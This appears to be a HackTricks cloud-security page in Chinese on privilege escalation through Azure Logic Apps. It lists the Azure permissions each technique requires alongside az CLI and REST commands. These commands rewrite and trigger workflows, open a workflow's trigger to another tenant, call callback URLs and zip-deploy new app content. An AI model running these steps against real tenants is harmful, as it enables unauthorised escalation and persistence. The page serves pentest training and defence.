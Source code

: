 # Az - Logic Apps Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Logic Apps Privesc
有关 SQL 数据库的更多信息，请查看：

{{#ref}}
../az-services/az-logic-apps.md
{{#endref}}

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

拥有此权限，您可以创建或更新 Azure Logic Apps 工作流。工作流定义了各种系统和服务之间的自动化过程和集成。
```bash
az logic workflow create \
--resource-group <resource_group_name> \
--name <workflow_name> \
--definition <workflow_definition_file.json> \
--location <location>

az logic workflow update \
--name my-new-workflow \
--resource-group logicappgroup \
--definition <workflow_definition_file.json>
```
然后在更改后，您可以使用以下命令运行它：
```bash
az rest \
--method post \
--uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
--body '{}' \
--headers "Content-Type=application/json"
```
此外，仅使用 `Microsoft.Logic/workflows/write`，您可以更改授权策略，例如，允许另一个租户触发工作流：
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
--body '{
"location": "<region>",
"properties": {
"definition": {
"$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
"contentVersion": "1.0.0.0",
"parameters": {
"$connections": {
"defaultValue": {},
"type": "Object"
}
},
"triggers": {
"<trigger-name>": {
"type": "Request",
"kind": "Http"
}
},
"actions": {},
"outputs": {}
},
"accessControl": {
"triggers": {
"openAuthenticationPolicies": {
"policies": {
"<policy-name>": {
"type": "AAD",
"claims": [
{
"name": "iss",
"value": "<issuer-url>"
}
]
}
}
}
}
}
}
}'

```
### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
您可以获取触发器的回调 URL 并运行它。
```bash
az rest --method POST \
--uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```
这将返回一个回调 URL，如 `https://prod-28.centralus.logic.azure.com:443/workflows/....`。现在我们可以用以下命令运行它：
```bash
curl --request POST \
--url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
--header 'Content-Type: application/json' \
--data '{"exampleKey": "exampleValue"}'
```
### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)
拥有这些权限，您可以使用 ZIP 文件部署来部署 Logic App 工作流。这些权限允许执行诸如读取应用程序详细信息、访问发布凭据、写入更改和列出应用程序配置等操作。结合启动权限，您可以更新并部署具有所需内容的新 Logic App。
```bash
az logicapp deployment source config-zip \
--name <logic_app_name> \
--resource-group <resource_group_name> \
--src <path_to_zip_file>
```
{{#include ../../../banners/hacktricks-training.md}}
